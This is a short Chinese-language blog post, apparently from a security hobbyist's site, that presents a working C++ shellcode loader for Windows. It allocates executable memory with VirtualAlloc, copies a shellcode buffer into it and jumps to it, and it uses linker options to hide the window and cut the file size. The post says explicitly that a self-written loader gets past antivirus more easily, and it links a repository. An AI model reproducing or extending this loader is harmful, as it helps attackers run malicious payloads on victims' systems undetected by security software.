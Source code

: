 ```yaml
---
title: "C++ ShellCode 加载器"
date: 2019-08-05T00:00:00+08:00
draft: false
tags: ['shellcode','c++','bypass']
categories: ['bypass']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


通过 Win32 API 实现从内存中加载 ShellCode.

<!--more-->

之前也用过 Python Go 方式的 ShellCode 执行器, 不过使用 C++ 编译的文件体积会小很多.

```
#include <Windows.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"Run\"")  
#pragma comment(linker, "/INCREMENTAL:NO")   

unsigned char buf[] = "shellcode";


int Run()
{
	LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, buf, sizeof(buf));
	((void(*)())Memory)();
	return 0;
}
```

两行预编译代码用来隐藏窗口和自定义入口点, 实测把 main 改掉以后体积缩小了一大半.

Windows 10 1903 下使用 Visual Studio 2019 编译后大小为 4kb.

至于 ShellCode 加载器, 已经给出了上面的代码, 拓展一下写出一个简单的 loader 也并不困难, 无非就是本地读取和远程读取两种方式. 而且使用自己写的工具而不是网上被大量使用的 shellcode launcher, 会更容易地绕过杀软.

[cpploader](https://github.com/X1r0z/cpploader)